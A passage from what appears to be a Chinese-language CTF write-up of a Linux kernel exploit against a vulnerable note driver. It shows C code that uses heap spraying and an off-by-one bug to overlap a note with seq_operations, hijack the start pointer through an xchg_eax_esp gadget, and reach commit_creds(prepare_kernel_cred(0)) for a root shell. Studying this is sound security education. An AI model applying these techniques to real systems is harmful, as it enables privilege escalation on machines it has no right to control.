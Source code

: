 由於 `subprocess_info` 有幾個 function pointer 元素, 讓我們能夠 leak kernel text

這邊怎麼知道 offset 是 0x6bac0 的呢?
- 若能知道 text 段開頭在哪, 就能知道這 function pointer offset 多少
- 通過在 qemu 機裡面 `cat /proc/kallsyms | grep ' _text'` 就能知道 text 段開頭

## Hijack control flow
目前 leak kernel text 了, 那接著就要試試看怎樣才能控制 rip 了

```c
    // spray
    for (int i = 0; i < 131; ++i) {
        openstat();
    }

    args.length = 0x20;

    note_alloc();

    // off-by-one
    note_write();

    // move note
    note_close(); // note --> target object --> target object
    openstat();   // target object --> target object
    note_alloc(); // target object --> note 的內容 (target object 跟 note 現在是同一塊了)
```
- 一樣先 spray, 弄出一個沒有坑洞的 page, 方便打 off-by-one
- 利用 off-by-one 製造一個 next ptr 指向自己的 free object
- 把 note 移動到這 free object, 且下次申請還是會在這個 object 上
- 這邊利用開啟 `/proc/self/stat` 時, 會創造 `seq_operations` 這個結構 (size 0x20) 的特性

```c
    // allocate seq_operations
    int stat_fd = openstat();

    // rewrite function pointer of seq_operations
    *(void **)(&args.addr[0]) = (void *)xchg_eax_esp;
    note_write();

    // invoke!
    char buf[0x10];
    read(stat_fd, buf, 0x10);
```
- 讓 note 跟 `seq_operations` 疊合
- 改掉 start 這個 function pointer
- 讀取 `/proc/self/stat`, 這個行為會執行 start 所指向的 function
- 成功控制執行流!

可以控制執行流了, 接下來的思路就是
- 執行到 `commit_creds(prepare_kernel_cred(0))` 完成提權
- 回到 user mode, 並執行 /bin/sh
- 這樣就有 root 的 shell 了
